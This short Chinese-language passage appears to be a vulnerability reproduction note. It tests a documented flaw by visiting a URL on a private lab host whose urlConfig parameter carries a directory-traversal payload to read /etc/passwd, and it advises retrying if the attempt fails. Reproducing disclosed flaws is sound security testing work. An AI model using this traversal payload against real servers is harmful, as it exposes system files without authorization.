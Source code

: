 ![image-20230428010025519](./assets/image-20230428010025519.png)

使用 文档给出的方法测试：

**浏览器访问：**

```
http://192.168.125.138/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

如果一个测试不成功可以多试几次
